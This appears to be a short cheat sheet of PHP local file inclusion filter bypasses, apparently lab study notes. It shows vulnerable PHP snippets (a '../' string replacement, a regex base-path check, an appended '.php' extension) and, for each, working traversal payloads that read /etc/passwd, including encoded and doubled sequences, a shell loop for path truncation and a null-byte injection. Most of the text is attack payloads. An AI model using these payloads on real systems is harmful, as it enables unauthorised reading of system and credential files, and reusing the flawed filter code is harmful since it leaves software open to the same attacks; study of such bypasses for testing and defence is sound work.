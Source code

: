 
Security Measure (Replace string)
```php
$language = str_replace('../', '', $_GET['language']);
```
Bypass
```
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
```
```
http://<SERVER_IP>:<PORT>/index.php?language=..././..././..././..././etc/passwd
```
```
http://<SERVER_IP>:<PORT>/index.php?language=....\/....\/....\/....\/etc/passwd
```
```
http://<SERVER_IP>:<PORT>/index.php?language=....\/....\/....\/....\/etc/passwd
```
```
http://<SERVER_IP>:<PORT>/index.php?language=....////....////....////....////etc/passwd
```
```
http://<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Security Measure (Regex) ** Ensure Path includes correct base directive in this case languages**
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
Bypass
```
http://<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

Security Measure(Path Truncation) PHP defined string character limit is 4096 characters
1. Determine long path to make
2. Include disregarded pathing techniques(/etc/passwd/. & ////etc/passwd & /etc/./passwd)
3. Create Path
```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

Security Measure(Append File extension)
```php
$language = append_string($_GET['language'],'.php');
```

Bypass (Before php 5.5)
Null byte injection
```
/etc/passwd%00.php
```

